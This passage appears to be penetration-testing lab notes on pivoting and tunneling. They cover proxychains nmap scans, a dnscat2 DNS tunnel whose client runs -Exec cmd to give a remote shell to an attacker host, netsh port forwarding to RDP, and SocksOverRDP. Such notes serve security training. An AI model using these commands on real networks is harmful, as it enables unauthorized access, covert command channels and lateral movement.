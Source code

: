 ```shell
proxychains nmap -sV -sT 172.16.5.19 -p3389
```

### Dnscat2

Start server

```shell
sudo ruby dnscat2.rb --dns host=10.10.16.72,port=53,domain=inlanefreight.local --no-cache
```

Import module on client

```powershell
Import-Module .\dnscat2.ps1
```

Start tunnel

```powershell
Start-Dnscat2 -DNSserver 10.10.16.72 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```

Interacting with established session

```shell
window -i 1
```

### Pivoting Around Obstacles

- plink.exe (Windows PuTTY)
- sshuttle (Linux)
- rpivot (Python2)
- netsh (Windows)

Using Netsh.exe to Port Forward

```shell
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

Verifying Port Forward

```shell
netsh.exe interface portproxy show v4tov4
```

### RDP and SOCKS Tunneling with SocksOverRDP

[SocksOverRDP](https://github.com/nccgroup/SocksOverRDP) is an example of a tool that uses `Dynamic Virtual Channels` (`DVC`) from the Remote Desktop Service feature of Windows. DVC is responsible for tunneling packets over the RDP connection. Some examples of usage of this feature would be clipboard data transfer and audio sharing. However, this feature can also be used to tunnel arbitrary packets over the network. We can use `SocksOverRDP` to tunnel our custom packets and then proxy through it. We will use the tool [Proxifier](https://www.proxifier.com/) as our proxy server.
